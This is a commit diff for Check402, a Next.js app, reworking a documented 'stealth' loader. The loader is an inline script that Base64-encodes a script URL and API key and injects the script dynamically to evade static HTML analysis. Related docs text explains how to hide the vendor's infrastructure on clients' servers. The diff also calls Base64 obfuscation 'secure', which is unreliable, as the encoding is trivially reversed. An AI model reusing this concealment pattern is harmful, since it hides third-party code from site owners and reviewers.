

Before and after one commit to EasyioTech/Check402, a Next.js app: page /docs in a window 1280 px wide. Both pictures are taken after a click on the button "Security & Stealth". Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
added stealth mode for project script encryption

```diff
--- a/src/app/dashboard/projects/[id]/page.tsx
+++ b/src/app/dashboard/projects/[id]/page.tsx
@@ -112,10 +112,10 @@
         const origin = serverUrl;
         const keyB64 = typeof btoa !== 'undefined' ? btoa(apiKey) : apiKey;
         const originB64 = typeof btoa !== 'undefined' ? btoa(origin) : origin;
-        const srcB64 = typeof btoa !== 'undefined' ? btoa(`${origin}/sdk/analytics.js`) : `${origin}/sdk/analytics.js`;
+        const srcB64 = typeof btoa !== 'undefined' ? btoa(`${origin}/sdk/check402.js`) : `${origin}/sdk/check402.js`;
 
         if (showStealth) {
-            const polymorphicLoader = `(function(a,b,c,d){a=atob(a);b=document.createElement('script');b.src=a;b.setAttribute('data-id',c);b.setAttribute('data-v',d);document.head.appendChild(b);})('${srcB64}',0,'${keyB64}','${originB64}');`;
+            const polymorphicLoader = `(function(a,b,c,d){a=atob(a);b=document.createElement('script');b.src=a;b.setAttribute('data-api-key',c);b.setAttribute('data-server',d);document.head.appendChild(b);})('${srcB64}',0,'${keyB64}','${originB64}');`;
 
             return {
                 title: "Stealth Mode (Polymorphic Loader)",
@@ -127,7 +127,7 @@
                     },
                     {
                         title: "Security Level: High",
-                        code: "// The script URL is Base64 encoded inside the loader.\n// Attributes are masked and encoded.\n// No 'check402' strings appear in your HTML source.",
+                        code: "// The script URL is Base64 encoded inside the loader.\n// Parameters (API Key & Server) are Base64 encoded.\n// No 'check402' strings or sensitive data appear in your HTML source.",
                         desc: "This is the most secure way to integrate without a backend proxy."
                     }
                 ]
--- a/src/app/docs/page.tsx
+++ b/src/app/docs/page.tsx
@@ -674,27 +674,19 @@
             </p>
             <CodeBlock id="stealth-poly" lang="html" copiedId={copiedId} onCopy={copy} code={`<!-- Enhanced Stealth Loader -->
 <script>
-(function(a,b,c,d){a=atob(a);b=document.createElement('script');b.src=a;b.setAttribute('data-id',c);b.setAttribute('data-v',d);document.head.appendChild(b);})('${typeof btoa !== 'undefined' ? btoa(server + "/sdk/analytics.js") : "aHR0cHM6Ly9jaGVjazQwMi5jb20vc2RrL2FuYWx5dGljcy5qcw=="}',0,'${exampleKey}','${serverB64}');
+(function(a,b,c,d){a=atob(a);b=document.createElement('script');b.src=a;b.setAttribute('data-api-key',c);b.setAttribute('data-server',d);document.head.appendChild(b);})('${typeof btoa !== 'undefined' ? btoa(server + "/sdk/check402.js") : "aHR0cHM6Ly9jaGVjazQwMi5jb20vc2RrL2NoZWNrNDAyLmpz"}',0,'${exampleKey}','${serverB64}');
 </script>`} />
             <div className="p-4 bg-teal-50 border border-teal-100 rounded-xl my-6">
                 <div className="font-bold text-teal-900 mb-1 text-sm flex items-center gap-2"><Zap size={14} fill="currentColor" /> Why this works:</div>
                 <ul className="text-xs text-teal-700 font-medium space-y-1 ml-4 list-disc mt-2">
                     <li>The script <code>src</code> is Base64 encoded inside the loader.</li>
-                    <li>Attributes like <code>data-id</code> and <code>data-v</code> mask their purpose.</li>
+                    <li>The API Key and Server URL are Base64 encoded.</li>
                     <li>The script is injected dynamically, bypassing static HTML analysis.</li>
                     <li>Branded console logs are suppressed in production.</li>
                 </ul>
             </div>
 
-            <h2>Method 2: Generic Filename</h2>
-            <p>
-                Avoid using <code>check402.js</code>. We provide a generic <code>analytics.js</code> endpoint that serves the same script but looks like a standard tracking pixel.
-            </p>
-            <Callout type="info" title="Alternative Filenames">
-                <p>You can also use: <code>payment-guard.js</code>, <code>security-module.js</code>, or <code>session-manager.js</code>.</p>
-            </Callout>
-
-            <h2>Method 3: Domain Masking (Hardest)</h2>
+            <h2>Method 2: Reverse Proxying (Recommended)</h2>
             <p>
                 To completely hide the Check 402 infrastructure, use a **Reverse Proxy** on your client's server to route requests from <code>/api/security/v1</code> to <code>check402.com/api/check-status</code>.
             </p>
```
